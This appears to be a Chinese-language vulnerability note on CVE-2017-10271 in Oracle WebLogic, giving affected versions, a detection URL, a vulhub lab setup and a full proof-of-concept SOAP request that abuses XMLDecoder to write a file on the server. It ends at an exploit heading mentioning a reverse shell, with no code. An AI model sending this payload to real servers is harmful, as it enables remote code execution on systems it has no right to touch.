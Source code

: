 # 相关
CVE-2017-10271
- 受影响版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
- 漏洞描述：WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。
- 漏洞检测：访问http://host:7001/wls-wsat/CoordinatorPortType返回如下，则可能存在此漏洞
![title](https://i.loli.net/2019/05/20/5ce24e619807844967.jpg)

# 验证环境搭建
使用vulhub的cve-2018-2628搭建

# POC
通过写入一个文件的形式进行简单验证
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 748

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>hello_world</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```
写入的路径是`~/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt`
访问验证的路径是`/wls-wsat/test.txt`
# EXP
反弹